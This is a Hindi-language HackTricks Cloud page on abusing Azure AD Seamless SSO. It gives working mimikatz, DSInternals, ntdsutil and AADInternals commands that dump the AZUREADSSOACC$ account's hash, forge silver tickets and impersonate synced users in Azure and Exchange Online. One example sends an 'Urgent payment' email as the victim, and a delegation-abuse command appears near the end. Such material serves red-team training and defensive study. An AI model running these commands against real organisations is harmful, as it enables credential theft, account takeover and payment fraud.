 # Az - Seamless SSO

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}

## बुनियादी जानकारी

[दस्तावेज़ से:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) स्वचालित रूप से **उपयोगकर्ताओं को उनके कॉर्पोरेट उपकरणों पर साइन इन करता है** जो आपके कॉर्पोरेट नेटवर्क से जुड़े होते हैं। सक्षम होने पर, **उपयोगकर्ताओं को Azure AD में साइन इन करने के लिए अपने पासवर्ड टाइप करने की आवश्यकता नहीं होती है**, और आमतौर पर, यहां तक कि अपने उपयोगकर्ता नाम भी टाइप करने की आवश्यकता नहीं होती है। यह सुविधा आपके उपयोगकर्ताओं को आपके क्लाउड-आधारित अनुप्रयोगों तक आसान पहुंच प्रदान करती है बिना किसी अतिरिक्त ऑन-प्रिमाइसेस घटकों की आवश्यकता के।

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

मूल रूप से Azure AD Seamless SSO **उपयोगकर्ताओं को साइन इन करता है** जब वे **एक ऑन-प्रिम डोमेन से जुड़े पीसी** पर होते हैं।

यह दोनों द्वारा समर्थित है [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) और [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md)।

डेस्कटॉप SSO प्रमाणीकरण के लिए **Kerberos** का उपयोग कर रहा है। जब कॉन्फ़िगर किया जाता है, Azure AD Connect एक **कंप्यूटर खाता बनाता है जिसे AZUREADSSOACC`$` कहा जाता है** ऑन-प्रिम AD में। `AZUREADSSOACC$` खाते का पासवर्ड **कॉन्फ़िगरेशन के दौरान सादा-पाठ के रूप में Azure AD को भेजा जाता है**।

**Kerberos टिकट** **NTHash (MD4)** का उपयोग करके **एन्क्रिप्ट किए जाते हैं** पासवर्ड का और Azure AD भेजे गए पासवर्ड का उपयोग करके टिकटों को डिक्रिप्ट करता है।

**Azure AD** एक **एंडपॉइंट** (https://autologon.microsoftazuread-sso.com) को उजागर करता है जो Kerberos **टिकट** स्वीकार करता है। डोमेन-जॉइन्ड मशीन का ब्राउज़र SSO के लिए इन टिकटों को इस एंडपॉइंट पर अग्रेषित करता है।

### ऑन-प्रिम -> क्लाउड

उपयोगकर्ता **`AZUREADSSOACC$` का पासवर्ड कभी नहीं बदलता**। इसलिए, एक डोमेन एडमिन इस खाते के **हैश को समझौता** कर सकता है, और फिर इसका उपयोग करके **सिल्वर टिकट बना सकता है** किसी भी ऑन-प्रिम उपयोगकर्ता के साथ Azure से कनेक्ट करने के लिए जो सिंक किया गया है:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
हैश के साथ आप अब **silver tickets जनरेट कर सकते हैं**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Silver ticket का उपयोग करने के लिए, निम्नलिखित चरणों को निष्पादित किया जाना चाहिए:

1. **ब्राउज़र प्रारंभ करें:** Mozilla Firefox को लॉन्च करें।
2. **ब्राउज़र कॉन्फ़िगर करें:**
* **`about:config`** पर जाएं।
* [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) के लिए वरीयता को निर्दिष्ट [मूल्यों](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) पर सेट करें:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **वेब एप्लिकेशन एक्सेस करें:**
* उस वेब एप्लिकेशन पर जाएं जो संगठन के AAD डोमेन के साथ एकीकृत है। एक सामान्य उदाहरण है [Office 365](https://portal.office.com/)।
4. **प्रमाणीकरण प्रक्रिया:**
* लॉगिन स्क्रीन पर, उपयोगकर्ता नाम दर्ज करें, पासवर्ड फ़ील्ड को खाली छोड़ दें।
* आगे बढ़ने के लिए, TAB या ENTER दबाएं।

{% hint style="success" %}
यदि सक्षम है तो यह MFA को बायपास नहीं करता है
{% endhint %}

#### ~~केवल क्लाउड उपयोगकर्ताओं के लिए Kerberos टिकट बनाना~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

यदि Active Directory प्रशासकों के पास Azure AD Connect तक पहुंच है, तो वे **किसी भी क्लाउड-उपयोगकर्ता के लिए SID सेट कर सकते हैं**। इस तरह Kerberos **टिकट** **केवल क्लाउड उपयोगकर्ताओं के लिए भी बनाए जा सकते हैं**। एकमात्र आवश्यकता यह है कि SID एक उचित [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) हो।

{% hint style="danger" %}
केवल क्लाउड एडमिन उपयोगकर्ताओं के SID को बदलना अब **Microsoft द्वारा अवरुद्ध** है।\
जानकारी के लिए देखें [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### ऑन-प्रेम -> क्लाउड संसाधन आधारित बाधित प्रतिनिधिमंडल के माध्यम से <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

कोई भी जो कंप्यूटर खातों (`AZUREADSSOACC$`) को कंटेनर या OU में प्रबंधित कर सकता है जिसमें यह खाता है, वह **खाते पर संसाधन आधारित बाधित प्रतिनिधिमंडल को कॉन्फ़िगर कर सकता है और इसे एक्सेस कर सकता है**।
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके.

</details>
{% endhint %}
